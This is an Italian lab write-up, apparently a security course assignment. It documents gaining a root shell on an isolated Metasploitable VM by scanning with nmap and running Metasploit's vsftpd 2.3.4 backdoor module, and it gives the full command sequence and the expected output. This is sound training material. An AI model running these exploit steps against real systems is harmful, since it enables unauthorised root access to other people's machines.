 # 📝 Consegna S7/L1
# La fase di exploit: Gli attacchi alle Reti ⚛️

## Obiettivo 
L'obiettivo di questa esercitazione è stato **ottenere una shell come utente root** sulla macchina target **Metasploitable-Linux** sfruttando una vulnerabilità nel servizio FTP `vsftpd 2.3.4`.

## Configurazione della rete ⚖️

### Struttura delle macchine virtuali
1. **Kali Linux**:
   - **Interfaccia 1 (eth0)**: Bridged per accesso a **Internet**.
   - **Interfaccia 2 (eth1)**: Rete interna configurata su `192.168.50.2`.

2. **Metasploitable-Linux**:
   - **Interfaccia unica (eth0)**: Configurata nella **rete interna** con IP `192.168.50.3`.
   - **Nessun accesso a Internet** (isolamento per motivi di sicurezza).

### Verifica della connettività
Per assicurarci che le macchine siano nella stessa rete interna:
**Kali ➞ Metasploitable**
   ```bash
   ping 192.168.50.3
   ```
   **Output atteso**: Risposta da `192.168.50.3` con successo.

## Scansione iniziale con Nmap 🔍
Una volta verificata la connettività, abbiamo eseguito una scansione rapida su Metasploitable per individuare i servizi attivi:

```bash
nmap -sV -p- 192.168.50.3
```

### Risultato della scansione
La scansione ha evidenziato la presenza del servizio FTP:
- **Porta 21**: FTP attivo con versione `vsftpd 2.3.4`

## Sfruttamento della vulnerabilità con Metasploit 🫠
### Caricamento dell'exploit
Utilizzando **Metasploit** con comando `msfconsole` abbiamo selezionato l'exploit specifico per la vulnerabilità di `vsftpd 2.3.4`:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.50.3
set RPORT 21
run
```

### Esecuzione
L'exploit ha avuto successo, ottenendo una **shell** come utente **root** sulla macchina target.

**Output atteso:**
```bash
Command shell session opened
whoami
root
```

## Risultato finale 💪
L'obiettivo è stato raggiunto con successo:
- Abbiamo ottenuto una shell come **root** sulla macchina Metasploitable-Linux sfruttando il servizio FTP vulnerabile.
- La configurazione della rete interna ha garantito isolamento e sicurezza durante l'attacco.

### Considerazioni sulla sicurezza ⚠️
- La macchina target **Metasploitable** non deve avere accesso a Internet per evitare rischi di compromissione esterna.
- Kali Linux, grazie alla configurazione a doppia scheda di rete, ha mantenuto l'accesso sia alla rete interna che a Internet.

---

## Comandi chiave utilizzati 🛠️
1. **Scansione con Nmap**:
   ```bash
   nmap -sV -p- 192.168.50.3
   ```

2. **Metasploit - Caricamento exploit**:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.50.3
   set RPORT 21
   run
   ```

3. **Verifica della shell**:
   ```bash
   whoami
   ```

![SuccessFTPExploit](./ShellFTPSuccess.png)

## Mission Success 🏆🚀
